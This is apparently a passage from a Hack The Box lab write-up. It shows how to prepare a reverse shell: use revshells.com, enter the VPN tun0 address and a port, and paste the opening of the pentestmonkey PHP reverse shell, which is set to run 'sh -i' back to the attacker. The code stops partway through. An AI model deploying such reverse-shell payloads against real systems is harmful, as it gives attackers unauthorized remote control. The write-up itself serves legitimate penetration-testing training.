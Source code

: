 Boom we are in.

### Reverse shell preparation

Go to: https://www.revshells.com/

We are going to use `PHP PentestMonkey` one.

Paste `ip address` of our `tun0` interface as we are connected to `Hack The Box` through VPN.

If you don't know your `tun0` ip address use `ip a` command or `ifconfig`.

The `port` can be any of your choice.

![shell](./Screenshots/baseshell.png)

Copy the payload, it should look like this:

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '{your tun0 ip}';
$port = {port of your choice};
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
```